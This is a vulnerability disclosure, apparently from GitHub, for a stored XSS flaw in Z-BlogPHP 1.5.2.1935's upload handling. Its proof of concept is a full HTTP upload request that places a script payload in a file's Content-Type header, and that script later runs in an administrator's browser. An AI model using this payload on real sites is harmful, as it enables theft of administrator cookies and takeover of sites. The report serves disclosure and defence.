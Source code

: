 # Z-BlogPHP 1.5.2.1935 (Zero) Stored XSS via zb_system/function/c_system_admin.php  in 1237 line.
## Component
Z-BlogPHP 1.5.2.1935 (Zero) Download link:https://www.zblogcn.com/zblogphp

## Vulnerability location
zb_system/function/c_system_admin.php  in 1237 line.
![](https://github.com/seedis/Z-BlogPHP/blob/master/images/1.png)

## Vulnerability trigger condition
exploit the vulnerability via logiing with a author's privilege account then trigger the vulnerability when admin logins in   and accesses the  zb_system/admin/index.php?act=UploadMng page
## POC 
logiing with a author's privilege account
![](https://github.com/seedis/Z-BlogPHP/blob/master/images/2.png)
 edit Content-Type param value:<script>alert(document.cookie)</script> When uploading an attachment,then forward it.
```
POST /Z-Blog/zb_system/cmd.php?act=UploadPst&csrfToken=5fb877f1b3051a92b4c2f6809354caa5 HTTP/1.1
Host: 192.168.3.216
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.216/Z-Blog/zb_system/admin/index.php?act=UploadMng
Content-Type: multipart/form-data; boundary=---------------------------61109570014186299461550053428
Content-Length: 19160
Cookie: timezone=8; username=safetest; token=c8ab6b10998316d1390318ab2bc5b95b90c63c9c62d22fcfe2b6d379340e21911539683657; addinfoZ-Blog=%7B%22chkadmin%22%3A1%2C%22chkarticle%22%3A1%2C%22levelname%22%3A%22%5Cu4f5c%5Cu8005%22%2C%22userid%22%3A%223%22%2C%22useralias%22%3A%22safetest%22%7D; timezone=8
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------61109570014186299461550053428
Content-Disposition: form-data; name="file"; filename="天气预报.png"
Content-Type: <script>alert(document.cookie)</script>

�PNG


IHDRvx'�asRGB���gAMA���a	pHYs���o�dIIDATx^�w�$e�����y=���� Q@I�A���$E0�""�����9�s�avvvvfv'��<ӓs�f��]�SU=�=��
���xY�U�=�u��~w��g��nz�m�:��������s�{���E�H<����tR���s������P?��!�;:����c��w���>���[�W��D��S1��k�k�cjDN(��U"�m��8Z)rD�2�C�!9���Ð�7�E�W)�=e�v�Z�t�C)��l+��E��(h��bSaP6lt=(`�R`��u�6?`X�g����U�ì�Y��X,�e6K��Y��E���+r[�����/ۧ����)h?W^�ݹ�v�X��i�S�n�l�ٖe��d�6{,6�ؘ��"\�O�XkaMZ��k�lX��Z�t�"�byr�,Kn��.�$
�����³6g,�i��0�f��h1GIh��.f)�3mf�LSN[LU�dJ\�L>U/-��Ih��V����x�?�;�uΞ���݈S��"CB�)t;�v�.U�#V�n�� �b�k�	y�#��T�:*k����j[��\��U�K#�#K	I�E.Mj4��2!r1��"O�.@�|�gc	m02�fq�T#y3a��#ՈE�d*S��$�^�bj�,Ln���+��]���VB-���Hu�鰕t*[�"mT���ȴ0"]8�tP�N:T�#t8��G��t�B��Se��K�:�XGh�Pe�-ԑ�����ZL�����I�
��j��������)
	E�r.�F*ݜKh�T�1R]B�T�)�L'�n�aR�h�4M��PK�[���%t4�HS�ڌ��s�6%�����!v2"'�u�	6�b�����lE�mWN{�	
�j�<�Pgu	E�J�Kf(��P��"�\RϙR[�Jo��s�5�,C��6���U�n���ROZ�]+�穀붖��U}�ێ���;�Z��a��&L"򶁊4��6����fÆ�SN�E�aF&�V���,W�4�D:��`D�m��f��"d-��eH �,�
�d�.��-9L��#�9.�|�}=�&��ܩ��d
-----------------------------61109570014186299461550053428
Content-Disposition: form-data; name="auto_rename"

on
-----------------------------61109570014186299461550053428--

```
![](https://github.com/seedis/Z-BlogPHP/blob/master/images/3.png)
when we login with administrator,access to link,http://192.168.3.216/Z-Blog/zb_system/admin/index.php?act=UploadMng,the Js code successfully executed.
![](https://github.com/seedis/Z-BlogPHP/blob/master/images/4.png)
Attackers can exploit this vulnerability to obtain import information such as administrator cookies.


